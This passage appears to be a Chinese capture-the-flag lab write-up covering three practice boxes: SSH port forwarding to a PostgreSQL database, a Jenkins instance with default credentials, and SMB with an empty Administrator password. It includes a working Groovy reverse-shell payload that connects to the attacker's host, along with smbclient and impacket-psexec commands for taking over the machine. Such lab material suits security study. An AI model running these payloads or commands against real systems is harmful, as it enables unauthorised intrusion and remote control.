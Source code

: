 ```bash
$ ssh -L 2345:localhost:5432 christine@<box_ip>
```

随后就可以通过 `psql` 连接了：

```bash
$ psql -h localhost -p 2345 -U christine
> \l
> \c secrets
> \dt
> select * from flag;
```

除了使用本地端口转发外，也可以使用动态端口转发，此时本质上是在本地的 2345 端口上运行了一个 SOCKS5 代理：

```bash
$ ssh -D 2345 christine@<box_ip>
```

这样只要通过 `proxychains` 等工具走代理就能访问远程主机上的任意端口了（`proxychains` 需要在 `ProxyList` 中设置 `socks5 127.0.0.1 2345` 代理）：

```bash
$ proxychains psql -h localhost -p 5432 -U christine
```

### Pennyworth

扫描发现 8080 端口开放 Jenkins 服务，使用默认密码 `root/password` 登录。随后通过 Manage Jenkins -> Script Console 执行 [Groovy Script 反弹 shell](https://github.com/gquere/pwn_jenkins)：

```groovy
String host="<my_ip>";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Tactics

445 端口开放，使用 `smbclient -U Administrator -L <box_ip>` 加空密码访问 SMB 服务，发现 `ADMIN$` 和 `C$` 这两个 Share 都可以访问 。随后我们可以直接访问 C 盘获取 flag：

```bash
$ smbclient -U Administrator \\\\<box_ip>\\C$
> cd Users\Administrator\Desktop
> get flag.txt
```

或者，由于可以访问 `ADMIN$`，我们也可以用 impacket 的 psexec 模块获取 shell，注意输入空密码：

```bash
$ impacket-psexec Administrator@<box_ip>
> cd C:\Users\Administrator\Desktop
> type flag.txt
```
